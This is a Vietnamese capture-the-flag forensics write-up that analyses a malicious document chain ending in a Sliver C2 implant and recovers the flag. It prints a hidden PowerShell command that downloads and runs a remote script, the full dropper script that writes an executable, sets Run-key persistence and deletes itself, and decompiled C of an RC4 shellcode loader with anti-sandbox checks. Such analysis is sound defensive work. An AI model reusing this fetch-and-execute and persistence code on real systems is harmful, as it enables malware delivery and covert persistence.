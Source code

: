 # _Silver Moon_ _(Forensics)_

![image](image/1.png)

Ban đầu mình nhận được một yêu cầu chạy trực tiếp 1 file `.docx` thông qua đường link trong `File Explorer`

![image](image/2.png)

Thực hiện theo yêu cầu, thì thấy file kích hoạt `powershell` nháy phát rồi tắt. Mình đoán nó đã thực thi thứ gì đó trên máy mình, nên mình sẽ thực hiện check trong `Event Viewer` cụ thể là ở log `Sysmon` hoặc `Powershell` xem có gì đáng ngờ không

![image](image/3.png)

Thấy được một `Process create` kích hoạt `powershell` với câu lệnh sau

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1') # C:\HR\Application.docx
```

Dễ dàng thấy đoạn mã trên thực hiện tải và chạy mã độc từ `Internet` bằng `PowerShell`, trong chế độ ẩn và bỏ qua bảo mật. Mình liền lấy đường link ra truy cập thử và có được nội dung sau

```powershell
$SAlaAox = $kXVWlUwNPEw
$hLXHNNQnb = [Convert]::FromBase64String($SAlaAox)
$geMBPeaVORuLk = [System.Text.Encoding]::UTF8.GetString($hLXHNNQnb)
$geMBPeaVORuLk = ConvertFrom-Json $geMBPeaVORuLk

$ZhWOQbu = 'J1Csum3Dcj'
$ALMVCnyJSuzBnE = Join-Path $env:USERPROFILE (('DocumentsG1tJ1Csum3Dcj') -creplace 'G1t','\')

if (-not (Test-Path $ALMVCnyJSuzBnE)) {
    New-Item -ItemType Directory -Path $ALMVCnyJSuzBnE | Out-Null
    (Get-Item $ALMVCnyJSuzBnE).Attributes += 'Hidden','System'
}

foreach ($file in $geMBPeaVORuLk.aixrdrPVmiaT) {
    $p = Join-Path $ALMVCnyJSuzBnE $file.bHSoyPyFwZgB
    [IO.File]::WriteAllBytes($p, [Convert]::FromBase64String($file.PthYIs))
}

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$EHPoSQvgWxy = [IO.Path]::ChangeExtension([IO.Path]::GetTempFileName(), 'cmd')
[IO.File]::WriteAllText($EHPoSQvgWxy, (
    '@echo off
    start "" /b "%USERPROFILE%\Documents\J1Csum3Dcj\update.exe"
    del "%~f0"'
))

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

Set-ItemProperty -Path ('HKCU:\Software\Microsoft\Windows\CurrentVersion\Run') `
    -Name 'lAoprv' `
    -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"

Start-Sleep -Seconds (Get-Random -Minimum 2 -Maximum 4)

$ws = New-Object -ComObject WScript.Shell
$ws.Run($EHPoSQvgWxy, 0, $false)

Remove-Item $MyInvocation.MyCommand.Path -Force
```
- Đầu tiên thực hiện decode b64 hàm `kXVWlUwNPEw` ghi ra file `update.exe`
- Thực thi file, ẩn file
- Thiết lập cơ chế `persistance`: `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\lAoprv = update.exe path`. Mình có thể thấy sự xuất hiện của hoạt động này trong `autoruns` ~~Disable ngay nha~~              ![image](image/5.png)
- File `update.exe` được lưu tại `USERPROFILE\Documents\J1Csum3Dcj\`

Mình bắt đầu thực hiện việc `debug` tĩnh malware và đây là hàm `main`

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int ticks; // ebx
  int v4; // ebx
  __m128i si128; // xmm2
  char *v6; // rdx
  __m128 v7; // xmm3
  unsigned int v8; // ecx
  unsigned int v9; // eax
  __m128i v10; // xmm0
  __m128i v11; // xmm1
  __m128i v12; // xmm0
  __m128i v13; // xmm1
  __m128i v14; // xmm0
  __m128i v15; // xmm0
  __m128i v16; // xmm0
  __m128i v17; // xmm1
  __m128i v18; // xmm1
  unsigned __int8 v19; // r8
  char *v20; // r10
  int v21; // r9d
  char v22; // r11
  unsigned __int8 v23; // di
  __int64 i; // r11
  char v25; // r10
  __int64 v27; // [rsp+20h] [rbp-128h] BYREF
  _BYTE v28[4]; // [rsp+30h] [rbp-118h] BYREF
  char v29; // [rsp+34h] [rbp-114h] BYREF
  DWORD flOldProtect; // [rsp+130h] [rbp-18h] BYREF

  v27 = 5;
  ticks = Xtime_get_ticks();
  sub_140001320(&v27);
  if ( (double)(int)(Xtime_get_ticks() - ticks) / 10000000.0 <= 4.5 )
    exit(0);
  v4 = 0;
  flOldProtect = 0;
  if ( !VirtualProtect(&loc_140001520, 0xA82EDCu, 0x40u, &flOldProtect) )
  {
    GetLastError();
    sub_140001010("Error: %d");
  }
  si128 = _mm_load_si128((const __m128i *)&xmmword_140A862C0);
  v6 = &v29;
  v7 = (__m128)_mm_load_si128((const __m128i *)&xmmword_140A862D0);
  v8 = 8;
  do
  {
    v6 += 16;
    v9 = v8 + 4;
    v10 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 8), 0), si128), v7);
    v11 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v8 - 4), 0), si128), v7);
    v12 = _mm_packus_epi16(v10, v10);
    v13 = _mm_packus_epi16(v11, v11);
    *((_DWORD *)v6 - 5) = _mm_cvtsi128_si32(_mm_packus_epi16(v12, v12));
    *((_DWORD *)v6 - 4) = _mm_cvtsi128_si32(_mm_packus_epi16(v13, v13));
    v14 = _mm_cvtsi32_si128(v8);
    v8 += 16;
    v15 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(v14, 0), si128), v7);
    v16 = _mm_packus_epi16(v15, v15);
    v17 = (__m128i)_mm_and_ps((__m128)_mm_add_epi32(_mm_shuffle_epi32(_mm_cvtsi32_si128(v9), 0), si128), v7);
    *((_DWORD *)v6 - 3) = _mm_cvtsi128_si32(_mm_packus_epi16(v16, v16));
    v18 = _mm_packus_epi16(v17, v17);
    *((_DWORD *)v6 - 2) = _mm_cvtsi128_si32(_mm_packus_epi16(v18, v18));
  }
  while ( (int)(v8 - 8) < 256 );
  v19 = 0;
  v20 = v28;
  v21 = 0;
  do
  {
    v22 = *v20;
    v19 += *v20 + aAdvapi32Dll[v21++ % 0xCu];
    *v20++ = v28[v19];
    v28[v19] = v22;
  }
  while ( v21 < 256 );
  v23 = 0;
  for ( i = 0; i < 11022044; ++i )
  {
    v4 = (v4 + 1) % 256;
    v25 = v28[v4];
    v23 += v25;
    v28[v4] = v28[v23];
    v28[v23] = v25;
    *((_BYTE *)&loc_140001520 + i) ^= v28[(unsigned __int8)(v25 + v28[v4])];
  }
  VirtualProtect(&loc_140001520, 0xA82EDCu, flOldProtect, &flOldProtect);
  ((void (*)(void))loc_140001520)();
  return 0;
}
```
- Thấy được đây là một con `malware` có dấu hiệu của việc chống `sandbox\debug`. Sau đó cấp quyền `read/write/excecute` cho vùng nhớ `loc_140001520` bằng `VirtualProtect`

![image](image/13.png)
- Dùng thuật toán key scheduling kiểu RC4 để sinh S-box với `key` là `advapi32.dll`![image](image/14.png)
- Dùng `RC4 key stream` thực hiện `xor` với `loc_140001520`

Xác định vùng nhớ `loc_140001520` ban đầu:

![image](image/15.png)

Tiến hành debug bằng cách đặt `breakpoint` sau vòng `for` tức là vùng `loc_140001520` được `decrypt` xong

![image](image/10.png)

Chạy xong thấy vùng `loc_140001520` đã bị thay đổi so với ban đầu.

![image](image/16.png)

Chuyển sang chế độ `hex dump` để xem, mình thấy sự xuất hiện của 1 file thực thi khác tại đây nên khả năng cao là shellcode đã được `decrypt` đúng

![image](image/17.png)

Mình tiến hàng dump vùng này về bằng tay. Vì dump bằng tay nên khả năng cao file sẽ bị thiếu hoặc kh được chuẩn (mình cũng kh biết nữa vì trình `reverse` mà động đến `debug` như này mình khá kém)

![image](image/18.png)

Đến đây mình vứt vào `IDA` và sau đó là kh biết làm gì tiếp theo, nên mình tiến hành chạy thử trong `VM` nhưng kh chạy được (chắc do mình dump thiếu)

![image](image/19.png)

Vì kh biết làm gì tiếp nên mình thử strings bừa thì thấy được 1 số dữ kiện quan trọng

![image](image/20.png)

Cụ thể hơn thì đây khả năng là danh sách các tên `file/source` được nhúng trong `.rdata` section của một binary được build từ `GO`. Điều này rất thường thấy ở `malware` được viết bằng GO, nhất là các `implant` từ `Silver C2`. Vì liên quan đến `Silver C2` nên mình tiến hành check thử một số kí tự đặc trưng như `http`

![image](image/21.png)

Thấy được 1 đường link `https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=`, tiến hành decode b64 ta nhận được flag

FLAG: `wwf{f1l3f1x_t0_sl1v3r_b34c0n}`
